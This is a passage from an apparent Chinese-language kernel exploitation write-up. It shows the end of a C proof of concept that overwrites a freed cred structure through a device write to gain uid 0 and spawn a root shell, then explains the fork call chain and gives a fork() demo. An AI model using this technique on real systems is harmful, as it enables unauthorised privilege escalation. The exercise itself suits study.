 ```c
	pid = fork();
	if(pid==0)
	{
		printf("[*] child process created ");
		buf = malloc(0xa8);
		memset(buf,0,0xa8);
		write(fd2,buf,5*0x8);
		printf("[*] uid => %d\n",getuid());
		if(getuid()==0)
		{
			system("/bin/sh");
			exit(0);
		}
	}
	else
	{
		wait(0);
	}

	return 0;
}

/*
#define O_ACCMODE   00000003  
#define O_RDONLY    00000000  
#define O_WRONLY    00000001  
#define O_RDWR      00000002 
*/
```
* 说明

poc的关键在于fork函数要复制父进程的资源，重新创建`struct cred`结构体，其中的调用链如下

`entry_SYSCALL_64() -> SyS_clone() -> _do_fork -> copy_process() -> copy_creds() -> prepare_creds()`

* 关于`fork()`函数

这个测试文档去理解很不错
```c
#include <unistd.h>  
#include <stdio.h>   
int main ()   
{   
    int fpid;
    int count=0;  
    fpid=fork();   
    if (fpid < 0)   
        printf("error in fork!");   
    else if (fpid == 0) {  
        printf("[*] fpid = %d i am the child process, my process id is %d\n",fpid,getpid());   
        count++;  
    }  
    else {  
        printf("[*] fpid = %d i am the parent process, my process id is %d\n",fpid,getpid());   
        count++;  
    }  
    printf("count => %d\n",count);  
    return 0;  
} 
```
